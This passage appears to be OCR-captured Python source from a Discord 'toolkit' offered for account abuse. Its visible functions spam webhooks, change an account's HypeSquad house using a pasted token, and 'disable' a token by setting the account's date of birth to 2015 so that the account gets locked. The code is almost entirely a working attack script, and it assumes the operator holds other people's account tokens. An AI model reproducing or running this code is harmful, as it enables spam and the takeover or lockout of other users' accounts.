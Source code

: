         print('[SUCCESSFUL] - Sent a new message!')
  except:
    print("[UNSUCCESSFUL] - Could Not Spam Webhook")
def hypesquad():
    os.system('cls; clear')
    print("[EAR TOOLKIT] - HYPESQUAD CHANGER: \n")
    print("""
[1] Bravery
[2] Brilliance
[3] Balance
        """)
    house = input('Your choice: ')
    token = input('Token: ')
    headers = {'Authorization': token, 'Content-Type': 'application/json'}  
    r = requests.get('https://discord.com/api/v8/users/@me', headers=headers)
    if r.status_code == 200:

      headers = {
            'Authorization': token,
            'Content-Type': 'application/json',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/0.0.305 Chrome/69.0.3497.128 Electron/4.0.8 Safari/537.36'
        }
      if house == "1":
          payload = {'house_id': 1}
      elif house == "2":
          payload = {'house_id': 2}
      elif house == "3":
          payload = {'house_id': 3}
      r = requests.post('https://discordapp.com/api/v6/hypesquad/online', headers=headers, json=payload, timeout=10)
      if r.status_code == 204:
        print('\n[SUCCESFULL] - Changed Your Hypesquad\n')
        print('Press [Enter] key to go back to Main Menu.')
        while True:
            input()
            os.system('cls; clear')
            tool()
    else:
      print('\nInvalid Token\n')
      print('Press [Enter] key to go back to Main Menu.')
      while True:
          input()
          os.system('cls; clear')
          tool()
def bantoken():
    os.system('cls; clear')
    print('[EAR TOOLKIT] - DISABLE TOKEN: \n')
    token = input('Token: ')
    headers = {'Authorization': token, 'Content-Type': 'application/json'}  
    r = requests.get('https://discord.com/api/v8/users/@me', headers=headers)
    if r.status_code == 200:
        r = requests.patch('https://discordapp.com/api/v8/users/@me', headers={'Authorization': token}, json={'date_of_birth': '2015-7-16'})
        if r.status_code == 400:
          print('\n[SUCCESFULL] Disabled Token\n')
          print('Press [Enter] key to go back to Main Menu.')
          while True:
              input()
              os.system('cls; clear')
              tool()
        else:
          print('\n[UNSUCCESFULL]  - Couldnt Ban Token\n')
          print('Press [Enter] key to go back to Main Menu.')